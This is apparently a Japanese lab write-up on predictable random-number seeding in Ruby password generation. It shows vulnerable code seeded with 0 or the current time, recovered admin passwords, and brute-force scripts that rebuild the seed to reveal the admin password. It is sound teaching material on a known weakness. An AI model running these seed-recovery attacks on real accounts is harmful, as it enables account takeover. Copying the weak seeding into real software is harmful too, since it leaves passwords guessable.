 開発者がどのように乱数や文字列を生成するかによって、生成される値は多かれ少なかれランダムになり得ます。最も大きな間違いは、定数や現在時刻を使って手動で乱数生成器を設定することです。  
このセクションでは、ランダムが常にランダムではないことを納得させるいくつかの例を見ていきます。   
# <span style="color: blue;">Example 1</span>
この最初の例は、ランダムが本当のランダムでないことを示すためにここにあるだけです。この問題は、シード付きランダムジェネレータを使用したことに起因しています。開発者は乱数生成器のシードとして値0を使いました。  
このコードでは、開発者がシードを0に設定したため、常に同じパスワードが生成されることがわかります。  
```Ruby
s = Random.new(0)
pass = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
User.create(:username => 'admin', :password => Digest::MD5.hexdigest(SEED+pass+SEED))
pass = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
User.create(:username => 'hacker', :password => Digest::MD5.hexdigest(SEED+pass+SEED))
```

![9b41a604bca670ded8ab42674a998782.png](../../_resources/9b41a604bca670ded8ab42674a998782-1.png)   

![3ed21bf59bd031df1f990d94362daefc.png](../../_resources/3ed21bf59bd031df1f990d94362daefc-1.png)    
Passwordに`mpvadd`を入力   
![f2df8b9c3898f96c716920b92ef03584.png](../../_resources/f2df8b9c3898f96c716920b92ef03584-1.png) 
# <span style="color: blue;">Example 2</span>
この例では、ランダムジェネレータのシードがうまくいっていない別の例を示しています。乱数生成器には現在時刻がシードされています。   
管理者パスワードに到達するためには、シードをブルートフォースする必要があります。そのためには、現在の時刻から始めて、パスワードが得られるまで、値を生成するのに使われたアルゴリズムを再生しながら、時刻を減らしていくことができます。   
パスワードが得られたら、どのシードが使われたか（より正確にはランダムジェネレータが初期化された時間）がわかります。そして、管理者パスワードを取得することができます。    
```Ruby
s = Random.new(Time.now.to_i)
pass = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
User.create(:username => 'admin', :password => Digest::MD5.hexdigest(SEED+pass+SEED))
pass = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
User.create(:username => 'hacker', :password => Digest::MD5.hexdigest(SEED+pass+SEED))
```
今回のシードは、現在のタイムスタンプです。パスワードを取得するためには、生成されたパスワードを計算するスクリプトを作成する必要があります。   
```Ruby
timestamp = (Time.now.to_f).to_i
seed = Random.new(timestamp)
pass_admin = 6.times.map { ('a'..'z').to_a[seed.rand(('a'..'z').to_a.size)]}.join
pass_hacker = 6.times.map { ('a'..'z').to_a[seed.rand(('a'..'z').to_a.size)]}.join

while pass_hacker !="mgguzb" do #contraseña del usuario 'hacker'
 timestamp = timestamp - 1
 seed = Random.new(timestamp)
 pass_admin = 6.times.map { ('a'..'z').to_a[seed.rand(('a'..'z').to_a.size)]}.join
 pass_hacker = 6.times.map { ('a'..'z').to_a[seed.rand(('a'..'z').to_a.size)]}.join
end

puts "Password de admin: "
puts pass_admin
```
![a6ad75bd237e6a5930118a3f34ba94c9.png](../../_resources/a6ad75bd237e6a5930118a3f34ba94c9.png)   
![ba03e018ad471495d05dcb86f8e556c4.png](../../_resources/ba03e018ad471495d05dcb86f8e556c4.png)    
![527644e412595a677d026fd0009c3b25.png](../../_resources/527644e412595a677d026fd0009c3b25.png)    

# <span style="color: blue;">Example 3</span>
```ruby
s = Random.new(0)
pass = (6+s.rand(5)).times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
User.create(:username => 'admin', :password => Digest::MD5.hexdigest(SEED+pass+SEED))
pass = (6+s.rand(5)).times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
User.create(:username => 'hacker', :password => Digest::MD5.hexdigest(SEED+pass+SEED))
```
![b54935ea4824245900a5216cff07fecb.png](../../_resources/b54935ea4824245900a5216cff07fecb.png)   
Passwordに`pvaddhjtvs`を入力   
![63ba75eef4260d5bc698644357caf4d3.png](../../_resources/63ba75eef4260d5bc698644357caf4d3.png)   
![1eb369d0f2aa07dc150703722e5229c0.png](../../_resources/1eb369d0f2aa07dc150703722e5229c0.png)  

# <span style="color: blue;">Example 4</span>
```ruby
s = Random.new(0)
rand(1000).times {s.rand(5)}
pass = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
User.create(:username => 'admin', :password => Digest::MD5.hexdigest(SEED+pass+SEED))
pass = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
User.create(:username => 'hacker', :password => Digest::MD5.hexdigest(SEED+pass+SEED))
```
この状況では、乱数発生器が以前に何回使われたかは分かりませんが、ハッカーアカウントで同じパスワードを見つけるまでブルートフォースでパスワードを入力し、正しい値で管理者コードを実行することができます。  
```ruby
a = 1000
s = Random.new(0)
a.times {s.rand(5)}
passad = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
passhk = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join

puts "insert the password for the hacker login:"
pass_hk = gets.chomp

while passhk != pass_hk do #here you should place the password for the hacker acount
a = a - 1
s = Random.new(0)
a.times {s.rand(5)}
passad = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
passhk = 6.times.map { ('a'..'z').to_a[s.rand(('a'..'z').to_a.size)]}.join
#puts a
end
puts "admin pass is :"
puts passad
puts "done :-)"
```
![cbc7cd2056f0d143cd7aba9cf2c70345.png](../../_resources/cbc7cd2056f0d143cd7aba9cf2c70345.png)   
![bee34438e5d65e2d64c456eb219821fc.png](../../_resources/bee34438e5d65e2d64c456eb219821fc.png)   
![42b210103c7994fbc6f473c5fe9b717e.png](../../_resources/42b210103c7994fbc6f473c5fe9b717e.png)